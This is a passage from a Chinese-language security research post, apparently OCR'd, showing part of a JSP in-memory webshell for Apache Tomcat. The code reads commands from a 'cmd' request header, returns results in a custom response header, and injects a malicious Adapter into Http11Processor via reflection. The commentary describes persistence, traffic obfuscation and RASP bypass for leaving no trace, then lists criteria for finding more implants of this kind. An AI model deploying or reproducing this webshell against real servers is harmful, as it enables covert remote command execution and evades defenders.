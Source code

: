 ```jsp
            Http11Processor http11Processor = getHttp11Processor();
            Object[] headers = (Object[]) getField(getField(getField(http11Processor,"request"),"headers"),"headers");
            for (Object mimeHeaderField : headers){
                try {
                    if (getField(mimeHeaderField,"nameB").toString().equals("cmd")){
                        cmd = getField(mimeHeaderField,"valueB").toString();
                        return cmd;
                    }
                }catch (Exception e){
                    continue;
                }
            }
            return cmd;
        }

        // 拿到 Response 对象，在http11Processor.response
        // Execute-result-by-xieyaowei
        public void getResponse(byte[] res) throws UnsupportedEncodingException {
            Http11Processor http11Processor = getHttp11Processor();
            // response
            Response response = (Response) getField(http11Processor,"response");
            // 将执行的结果写入response中
            response.addHeader("Execute-result-by-xieyaowei", new String(res, "UTF-8"));
        }

    }
%>
<%
    //思路： set一个 adapter 恶意对象到 http11Processor 里面
    Adapter myadapter = new myAdapter(getConnector());
    Http11Processor http11Processor = getHttp11Processor();
    http11Processor.setAdapter(myadapter);
%>
```

# 再次探索

因为这个叫http Accepter 的线程会一直在，之后所有的 http 请求都会由这个线程处理，所以只要注入了之后就可以稳定使用，加密混淆流量之后更是可以做到流量无痕，假如在命令执行执行做一些 RASP 的绕过，这个内存马基本上可以做到完全无痕。

# 小结

这个内存马的研究起源是之前的 Upgrade 内存马的研究，根据他们的思路打算在访问 Servlet 路径上是否有类似的“可控对象执行方法”。

再次总结就是，在访问 Servlet 的过程中，其中会执行很多`Obj.func()`，只要这个代码段符合以下标准：

- 此对象在 Tomcat 启动时初始化；
- 此对象的方法可以被重写；
- 从 Tocmat 的几大对象中，可以通过反射构造此对象；
- 我们可以控制参数，进入分支。

就还是有不少内存马待发掘的，比如这里使用的只是HTTP/1.1的 Processor 而已，思路发散一下就好了。*本文的测试环境在IDEA JDK8u102 Tomcat 8.5.30。*